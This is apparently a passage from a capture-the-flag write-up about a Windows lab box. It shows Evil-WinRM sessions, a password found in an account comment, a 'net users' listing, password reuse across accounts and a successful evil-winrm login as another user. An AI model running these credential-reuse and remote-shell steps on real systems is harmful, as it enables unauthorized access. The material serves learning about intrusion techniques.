 ```md
Account expires              Never

Password last set            3/3/2022 10:07:32 AM
Password expires             Never
Password changeable          3/4/2022 10:07:32 AM
Password required            Yes
User may change password     No
```
Check the comment we can see a weird word that look interesting ```AllFortheLov3ofSh3ll!```
So let check for users
```md
net users
```
```md
*Evil-WinRM* PS C:\Users\hlevi\Documents> net users

User accounts for \\

-------------------------------------------------------------------------------
Administrator            eyeager                  Guest
hlevi                    jsmith                   krbtgt
The command completed with one or more errors.

*Evil-WinRM* PS C:\Users\hlevi\Documents> 
```
We can see the user eyeager and Administrator are the one that we didnt try it so let me check them both
For user Administrator, we fail to login
For user eyeager we succefully login

```md
evil-winrm -i 54.234.92.201 -u eyeager -p AllFortheLov3ofSh3ll!
```
```md
┌──(blackninja23㉿arena)-[~/CYSEC]
└─$ evil-winrm -i 54.234.92.201 -u eyeager -p AllFortheLov3ofSh3ll!                                                                                                  1 ⨯

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\eyeager\Documents> 
```
let do some enum on this user eyeager
```md
net user eyeager
```
```md
*Evil-WinRM* PS C:\Users\eyeager\Documents> net user eyeager
User name                    eyeager
Full Name                    Eren Yeager
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            3/3/2022 11:42:49 AM
Password expires             Never
```